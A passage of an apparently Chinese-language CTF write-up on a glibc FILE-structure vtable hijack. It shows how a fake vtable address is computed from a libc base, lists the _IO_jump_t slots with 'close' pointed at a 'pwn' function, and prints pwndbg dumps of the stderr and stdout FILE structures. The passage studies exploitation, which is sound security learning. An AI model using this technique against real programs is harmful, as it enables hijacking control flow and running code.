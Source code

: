 - `fake_vtable_addr` + 0x58 = `libc_base` + `off_set_3`
- 其中 0x58 根据下表查处是 `set_buf` 在虚表的偏移

```
void * funcs[] = {
1 NULL, // "extra word"
2 NULL, // DUMMY
3 exit, // finish
4 NULL, // overflow
5 NULL, // underflow
6 NULL, // uflow
7 NULL, // pbackfail
8 NULL, // xsputn #printf
9 NULL, // xsgetn
10 NULL, // seekoff
11 NULL, // seekpos
12 NULL, // setbuf
13 NULL, // sync
14 NULL, // doallocate
15 NULL, // read
16 NULL, // write
17 NULL, // seek
18 pwn, // close
19 NULL, // stat
20 NULL, // showmanyc
21 NULL, // imbue
};
```
我这里选择了以下地址作为 `fake_vtable` ：

```
pwndbg> x /60gx 0x7f41d9c02500
0x7f41d9c02500 <_nl_global_locale+224>:	0x00007f41d99cb997	0x0000000000000000
0x7f41d9c02510:	0x0000000000000000	0x0000000000000000
0x7f41d9c02520 <_IO_list_all>:	0x00007f41d9c02540	0x0000000000000000
0x7f41d9c02530:	0x0000000000000000	0x0000000000000000
0x7f41d9c02540 <_IO_2_1_stderr_>:	0x00000000fbad2086	0x0000000000000000
0x7f41d9c02550 <_IO_2_1_stderr_+16>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02560 <_IO_2_1_stderr_+32>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02570 <_IO_2_1_stderr_+48>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02580 <_IO_2_1_stderr_+64>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02590 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7f41d9c025a0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x00007f41d9c02620
0x7f41d9c025b0 <_IO_2_1_stderr_+112>:	0x0000000000000002	0xffffffffffffffff
0x7f41d9c025c0 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00007f41d9c03770
0x7f41d9c025d0 <_IO_2_1_stderr_+144>:	0xffffffffffffffff	0x0000000000000000
0x7f41d9c025e0 <_IO_2_1_stderr_+160>:	0x00007f41d9c01660	0x0000000000000000
0x7f41d9c025f0 <_IO_2_1_stderr_+176>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02600 <_IO_2_1_stderr_+192>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02610 <_IO_2_1_stderr_+208>:	0x0000000000000000	0x00007f41d9c006e0
0x7f41d9c02620 <_IO_2_1_stdout_>:	0x00000000fbad2a84	0x00005582e351c010
0x7f41d9c02630 <_IO_2_1_stdout_+16>:	0x00005582e351c010	0x00005582e351c010
0x7f41d9c02640 <_IO_2_1_stdout_+32>:	0x00005582e351c010	0x00005582e351c010
0x7f41d9c02650 <_IO_2_1_stdout_+48>:	0x00005582e351c010	0x00005582e351c010
0x7f41d9c02660 <_IO_2_1_stdout_+64>:	0x00005582e351c410	0x0000000000000000
0x7f41d9c02670 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02680 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007f41d9c018e0
0x7f41d9c02690 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff
0x7f41d9c026a0 <_IO_2_1_stdout_+128>:	0x0000000000000000	0x00007f41d9c03780
0x7f41d9c026b0 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000
0x7f41d9c026c0 <_IO_2_1_stdout_+160>:	0x00007f41d9c017a0	0x0000000000000000
0x7f41d9c026d0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
pwndbg> distance 0x7f41d9c025e0 0x7f41d983d000
0x7f41d9c025e0->0x7f41d983d000 is -0x3c55e0 bytes (-0x78abc words)
pwndbg> p 0x7f41d9c025e0 -0x58
```